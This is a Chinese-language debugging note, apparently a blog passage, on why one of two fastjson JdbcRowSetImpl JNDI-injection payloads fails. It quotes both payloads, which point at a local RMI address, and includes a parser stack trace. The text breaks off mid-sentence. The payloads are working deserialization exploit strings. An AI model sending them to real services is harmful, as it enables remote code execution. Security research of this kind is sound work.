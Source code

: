 

## 遇到的问题

测试的时候找了两个payload，大体都一样，只不过第一个payload比第二个多了反序列化java.lang.Class类的部分，导致第一个payload打不成功

使用payload1

```java
String jsonString = "{\"name\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},\"f\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/adas\",\"autoCommit\":true}}";
```

会报Caused by: java.lang.ArrayIndexOutOfBoundsException: -1

调用栈

```
popContext:1256, DefaultJSONParser (com.alibaba.fastjson.parser)
parseObject:358, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1327, DefaultJSONParser (com.alibaba.fastjson.parser)
parse:1293, DefaultJSONParser (com.alibaba.fastjson.parser)
parseExtra:1490, DefaultJSONParser (com.alibaba.fastjson.parser)
parseField:766, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:600, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:188, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
deserialze:184, JavaBeanDeserializer (com.alibaba.fastjson.parser.deserializer)
parseObject:639, DefaultJSONParser (com.alibaba.fastjson.parser)
parseObject:339, JSON (com.alibaba.fastjson)
parseObject:243, JSON (com.alibaba.fastjson)
parseObject:456, JSON (com.alibaba.fastjson)
main:41, test (test)
```

看了一下，是因为执行这条语句是contextArrayIndex为0导致的

![](https://raw.githubusercontent.com/CitrusIce/blog_pic/master/image-20200801205641550.png)

经过调试发现在最开始创建对象的时候会调用一次addContext，每次调用com.alibaba.fastjson.parser.DefaultJSONParser#parseObject(java.util.Map, java.lang.Object)会做一次popContext的操作，也就是每次解析JSONObject时都会调用一下，payload中有两个JSONObject，分别是

- {\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"}
- {\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/adas\",\"autoCommit\":true}

所以导致数组越界



再调试另一种payload

```java
String jsonString = "{\"name\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/adas\",\"autoCommit\":true}}";
```

少了一个JSONObject，所以popContext没有问题，同时又发现asm生成的类中有调用addContext的操作具体在
